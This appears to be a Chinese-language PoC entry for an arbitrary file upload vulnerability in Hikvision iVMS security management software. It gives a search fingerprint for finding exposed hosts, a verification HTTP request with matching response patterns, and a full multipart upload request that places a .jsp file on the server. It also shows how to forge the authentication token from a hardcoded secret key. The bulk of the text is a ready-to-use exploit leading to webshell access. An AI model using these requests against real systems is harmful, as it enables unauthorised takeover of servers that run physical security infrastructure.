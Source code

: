 ﻿# 海康iVMS综合安防存在文件上传漏洞

> 更新时间：2024-03-15

> 漏洞编号：

> 漏洞说明：海康威视iVMS系统存在在野 0day 漏洞，攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。

> 漏洞特征：web.body="/views/home/file/installPackage.rar"

> 验证脚本：HTTP

```
POST /eps/api/resourceOperations/upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ISMS_8700_Sessionname=7634604FBE659A8532E666FE4AA41BE9
Upgrade-Insecure-Requests: 1

service=http%3A%2F%2Fip:port%3Ax%2Fhome%2Findex.action
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?token)(?=.*?empty).*?$

> 上传文件定位：

> 验证文件来源：海康iVMS综合安防存在文件上传漏洞.poc

```
备注说明：
进一步POC：
POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: ISMS_8700_Sessionname=A29E70BEA1FDA82E2CF0805C3A389988
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPo
Upgrade-Insecure-Requests: 1
 
------WebKitFormBoundaryGEJwiloiPo
Content-Disposition: form-data; name="fileUploader";filename="dudesite.jsp"
Content-Type: image/jpeg
 
dudesite
------WebKitFormBoundaryGEJwiloiPo

token值需要进行MD5(http://ip:port/eps/api/resourceOperations/uploadsecretKeyIbuilding)的值（32位大写）
显示上传成功且返回了resourceUuid值
验证路径：http://ip:port/eps/upload/resourceUuid的值.jsp
```